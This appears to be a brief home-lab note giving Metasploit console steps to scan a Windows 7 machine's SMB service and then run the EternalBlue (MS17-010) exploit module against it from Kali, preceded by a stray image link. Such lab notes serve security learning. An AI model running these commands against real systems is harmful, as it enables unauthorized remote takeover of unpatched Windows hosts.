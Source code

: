 1. Create a sharable folder in the windows 7 machine
2. In msfconsole the kali machine:
	use auxiliary/scanner/smb/smb[1 or 2]
	set rhosts [windows 7 ip address]
	run
	use exploit/windows/smb/ms17_010_eternalblue
	set rhosts [windows 7 ip address]
	exploit